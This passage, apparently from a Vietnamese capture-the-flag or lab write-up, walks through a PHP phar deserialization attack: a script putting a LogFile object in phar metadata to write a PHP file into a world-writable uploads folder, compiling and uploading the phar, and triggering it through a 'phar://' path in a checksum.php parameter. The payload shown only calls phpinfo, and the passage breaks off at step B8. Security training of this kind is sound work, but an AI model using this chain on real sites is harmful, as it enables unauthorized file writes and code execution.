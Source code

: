 ```
$object = new LogFile();
$object->filename = '/www/uploads/abc.php';
$object->fcontents = "<?php phpinfo() ?>";
$phar->setMetadata($object);
$phar->stopBuffering();
?>
```
Cụ thể, file trên sẽ giúp ta lợi dụng Class LogFile sau khi deserialize file `.phar` của ta để tạo ra 1 file `abc.php` có nội dung là `<?php phpinfo(); ?>` được lưu ở thư mục gốc là `/www` ( Bạn có thể tìm thấy thông tin này ở `info.php` ) và lưu ở thư mục `Uploads` ( do thư mục `Uploads` được set quyền là `0777` nên tôi chọn nó vì có toàn quyền thực thi ).

Tiếp theo, ta sẽ compile file `test.php` này thành file `deser.phar`:
```
php --define phar.readonly=0 test.php
```

**B6:** Ta Upload file `deser.phar` lên trên Website

![alt text](./images/image-4.png)

Ta lưu lại đường dẫn tới file `PHAR` của ta:
```
uploads/67440cc15d70a_deser.phar
```

**B7:** Ta qua endpoint `checksum.php` rồi thay giá trị của parameter `file` thành:
```
phar:///www/uploads/67440cc15d70a_deser.phar/test.txt
```

![alt text](./images/image-5.png)

=> Vậy là Web đã Deserialize file `.phar` của ta

**B8:** Ta kiểm tra đường dẫn `/uploads/abc.php` để xem liệu file có được khởi tạo trong quá trình Website deserialize file `.phar` của ta không:
